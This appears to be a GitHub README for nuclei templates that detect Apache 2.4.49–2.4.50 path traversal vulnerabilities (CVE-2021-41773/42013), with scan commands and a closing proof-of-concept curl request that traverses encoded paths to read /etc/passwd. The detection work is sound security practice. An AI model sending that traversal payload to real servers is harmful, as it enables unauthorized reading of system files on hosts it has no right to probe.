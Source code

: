 # Scan FOR APACHE versions "ZERO-DAY" 

```Apache Version 2.4.49 and 2.4.50 ``` 


```(CVE-2021-41773) and CVE-2021-42013)```


## How to use : 

You Will need nuclei ! 

https://github.com/projectdiscovery/nuclei


Check local nuclei install and verify template 

```nuclei  -t apache-vulnerable-versions.yaml -vv ```

You should see 

```[apache-vulnerable-versions] Vulnerable Apache Versions (2.4.49-2.4.50) (@psibot) [high] ```


To scan target : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -u https://*.*.*.*:port ``` 

To scan targets in a file : 

```  nuclei --silent  -t apache-vulnerable-versions.yaml -l hosts.txt``` 


## Info about Nuclei templates 

```apache-vulnerable-versions.yaml``` - Detects version of Apache and will output HIGH if vulnerible. 

![apache-vulnerable-versions.yaml](https://imgur.com/WTDHjtO.png)


```apache-path-traversal-rce-v2.yaml``` - Will run a exploit and show the path vulnerible. Will output CRITICAL if  vulnerible.

![apache-path-traversal-rce-v2.yaml](https://imgur.com/Nrg7vER.png)

POC : 

```curl -s  -k  https://135.*.120.*:8443/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd ```

![POC](https://imgur.com/ijInybr.png)